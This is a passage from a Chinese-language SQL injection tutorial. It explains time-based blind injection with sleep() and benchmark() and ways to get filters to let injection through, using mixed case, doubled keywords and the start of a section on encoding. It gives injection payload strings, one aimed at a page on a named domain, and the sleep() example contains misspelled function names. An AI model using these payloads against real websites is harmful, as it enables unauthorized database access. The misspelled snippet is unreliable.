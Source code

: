 ### （四）时间延迟

#### 1、`sleep()`函数

sleep(duration) 这个函数的作用就是休眠，参数是休眠的时长，以秒为单位，也可以是小数。

```sql
if (ascii(subtr(databse(),1,1))>'a',1,sleep(5))#

# 检测数据库名的第一个字符的ascii和a比较，如果浏览器直接显示，说明比a大，如果浏览器5s后才显示，说明比a小
```

#### 2、`benchmark()`函数

重复执行指令

**语法**：`benchmark(count,expr)`

- count ： 必要参数，重复的次数。
- expr : 必要参数，执行的语句。

```sql
select Alt from vorname where Vorname='Lina' and benchmark(10000000,sha(1));
Empty set (2.72 sec)
```



## 五、绕过方法

### （一）常规绕过

#### 1、大小写绕过

一般来说，只要网站考虑了防御机制，现在的设计者是不会忘记注意大小写的。但我们还是把绕过思路从简单到复杂的讲述出来，大小写绕过是最简单的一种绕过方法，它成功的前提是网站防御规则中只匹配了字母小写的攻击语句特征。如`select`可能会被规则发现，`SeLeCt`则不会

```none
mbigfish.com/index.php?page_id=1' and 1=2 uNIoN sELecT 1,2,3,4#
```

#### 2、双写绕过

在某些网站，会对用户提交的一段字符进行匹配，对其认为危险的字符删除，同时放过余下其认为安全的字符。 例如，用户输入`1' and 1=2 union select 1,2,3,4#`，经过网站的过滤机制，服务器实际接收到的则是`1' and 1=2 1,2,3,4#` 此时可以双写绕过：

```none
/index.php?page_id=1' UNIunionON SELselectECT 1,2,3,4# 
```

经过网站过滤机制，`UNIunionON SELselectECT`实际变成了`UNION SELECT`。但要注意，这只适用于网站防御机制只匹配一次、过滤一次的情况。如果网站正则具有循环匹配，循环过滤直至匹配不到的机制，那么这种绕过方法就不再适用了

#### 3、编码绕过

如果网站防御机制未考虑过各类编码情况，那么将攻击语句编码后再发送也是一种很好的方法

##### 3.1、url编码绕过
